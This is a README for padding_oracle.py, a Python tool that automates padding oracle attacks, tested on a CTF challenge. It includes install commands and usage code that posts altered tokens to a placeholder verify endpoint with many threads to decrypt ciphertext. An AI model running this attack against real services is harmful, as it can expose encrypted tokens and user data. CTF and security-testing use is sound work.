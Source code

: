 # padding_oracle.py

Extremely fast threaded [padding oracle](http://server.maojui.me/Crypto/Padding_oracle_attack/) automation script for Python 3.

## Install

Installing from PyPI:

```shell
pip3 install -U padding_oracle
```

Or, installing from GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Example

All you need is defining the **oracle function** to check whether the given cipher is correctly decrypted.

```python
from padding_oracle import *
import requests, string

# Create a requests.Session to enable connection pool
sess = requests.Session()

# Define a function to test if the cipher can be decrypted
def oracle(cipher: bytes):
    token = base64_encode(cipher)
    resp = sess.post('http://insucure.com/verify_token', data={'token': token})
    assert 'failed' in resp.text or 'success' in resp.text, 'exception???'
    return 'decryption failed' not in resp.text


# cipher = base64_decode(token)
cipher = b'[______IV______][____Block1____][____Block2____]'

# DECRYPT THE CIPHER!!!
plaintext = padding_oracle(cipher,
                           block_size=16,
                           oracle=oracle,
                           num_threads=16,
                           chars=string.printable)
```

New API usage 1:

```python
import logging
from padding_oracle import Solver, get_logger, plaintext_list_to_bytes, remove_padding

solver = Solver()
solver.logger = get_logger(level=logging.DEBUG)
solver.num_threads = 64

@solver.oracle
def oracle(cipher: bytes):
    token = base64_encode(cipher)
    resp = sess.post('http://insucure.com/verify_token', data={'token': token})
    assert 'failed' in resp.text or 'success' in resp.text, 'exception???'
    return 'decryption failed' not in resp.text

cipher = b'[______IV______][____Block1____][____Block2____]'

plaintext_list = solver.solve(cipher) # byte ord list that may contains None
plaintext_with_padding = plaintext_list_to_bytes(plaintext_list)
plaintext = remove_padding(plaintext_with_padding)
```

New API usage 2:

```python
import logging
from padding_oracle import solve, get_logger

def oracle(cipher: bytes):
    token = base64_encode(cipher)
    resp = sess.post('http://insucure.com/verify_token', data={'token': token})
    assert 'failed' in resp.text or 'success' in resp.text, 'exception???'
    return 'decryption failed' not in resp.text

plaintext = solve(
    cipher=b'[______IV______][____Block1____][____Block2____]',
    block_size=16,
    num_threads=64,
    validator=oracle,
    logger=get_logger() # default level is INFO
)
```

This package also provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode, urldecode,
    base64_encode, base64_decode,
)
```
